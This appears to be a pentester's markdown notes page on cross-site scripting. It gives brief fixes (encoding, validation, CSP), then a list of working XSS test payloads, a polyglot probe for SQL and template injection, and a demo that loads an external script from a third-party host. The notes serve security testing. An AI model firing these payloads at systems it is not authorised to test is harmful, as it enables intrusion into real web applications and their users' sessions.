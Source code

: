 # XSS
* XSS can do anything a logged in user can do.

* You fix XSS by fixing the output or input:
	* Output - Encode data to make it safe:
	* Input - Validation, Whitelists
* Secondarily, you protect with a Content Security Policy (CSP), which is an HTTP Header

## Testing
```html

Here's a small #XSS list for manual testing (main cases, high success rate).

"><img src onerror=alert(1)>
"autofocus onfocus=alert(1)//
</script><script>alert(1)</script>
'-alert(1)-'
\'-alert(1)//
javascript:alert(1)

Try it on:
- URL query, fragment & path;
- all input fields.

------------

A payload without any parenthesis after "prompt":

```Object.defineProperty(window, 'p', { get: prompt });p;```

By using a Getter, we invoke the prompt without any input. This should display a prompt box in which the payload can be entered. See https://www.w3schools.com/jsref/met_win_prompt.asp

------------

JS:          <script>alert('Honk');</script>
SVG:         <svg onload=prompt(/svg/) />
IMG SRC:     <img src="alert('img src')" />
IMG ONERROR: <img src="error" onerror="alert('img error')" />

http://example.com/index.php?user=<script>alert(123)</script>
```



## Quick manual spray of an application input
```html
'"><svg/onload=alert()>{{9*74}}
```
This provides indicators of basic SQLi, XSS and SSTI vulnerabilities. Always remember to rest for SSTI (Server-Side Template Injection). Test for it the same way you would for XSS. A few simple payloads like ```{{7*7}}``` and if they get replaced by '49' then you've just found a high/critical vulnerability. You need to get a PoC though!


https://github.com/payloadbox/xss-payload-list



## Demo: Harlem Shake

```html
<script defer src="https://rafaelhart.com/shake.js"></script>
```

